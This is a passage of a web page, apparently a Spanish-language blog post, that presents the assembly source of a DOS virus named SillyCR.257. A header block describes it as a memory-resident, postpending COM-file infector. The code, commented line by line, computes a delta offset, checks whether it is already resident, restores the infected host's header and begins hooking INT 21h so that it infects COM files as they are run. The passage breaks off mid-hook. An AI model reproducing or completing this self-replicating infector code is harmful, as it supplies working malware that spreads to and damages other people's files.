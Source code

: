   </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################  
;# Nombre:        virus://DOS/SillyCR.257  
;# Plataforma:    Intel x86  
;# SO:            DOS v2.0+  
;# Lenguaje:      ASM x86-16 (sintaxis Intel)  
;# Herramientas:  TASM v4.1, TLINK v7.1.30  
;# Tipo:          Postpending, Resident, COM infector  
;# Tamaño:        257 bytes  
;# Propagación:   En archivos COM antes de ser ejecutados (INT 21h - AH=4B).  
;# Infección:     Postpending en archivos COM (no READ-ONLY).
;# Residente:     Si. Dentro de la memoria convencional (0-640KB), en la  
;#                zona baja del sistema.  
;# Stealth:       No  
;# Payload:       No  
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org 100h

start:     
    jmp short body                          ; cabezal, en las siguientes generaciones aquí  
    nop                                     ; habrá un near JMP de 3 bytes  
    db 'V'                                  ; firma viral

    mov ah, 00h                             ; / huésped dummy, solo retorna a DOS  
    int 21h                                 ; \

body:     
    call d_offset                           ; calcular delta offset  

d_offset:     
    pop bp  
    sub bp, offset d_offset 

    mov ax, 0ABCDh                          ; | AX = 0ABCDh  
    int 21h                                 ; |_DOS API - Llamar servicio de reconocimiento del virus

    cmp ax, 029Ah                           ; verificar código de respuesta  
    jne infect_int21h                       ; si no es 666 (29Ah), infectar INT 21h

    mov cx, 4                               ; restaurar cabezal original  
    lea si, [bp + host_head]  
    mov di, 100h  
    rep movsb 

    mov ax, 100h  
    jmp ax                                  ; saltar a CS:0100 y ejecutar huésped 

infect_int21h:    
    mov ah, 35h                             ; | AH = 35h  
    mov al, 21h                             ; | AL = número de interrupción, 21h  
    int 21h                                 ; |_DOS API - Obtener vector en ES:BX

    mov [bp + vector_int21], bx             ; guardar vector original de INT 21h  
    mov [bp + vector_int21 + 2], es

    mov ah, 25h                             ; | AH = 25h  
    mov al, 21h                             ; | AL = número de interrupción, 21h  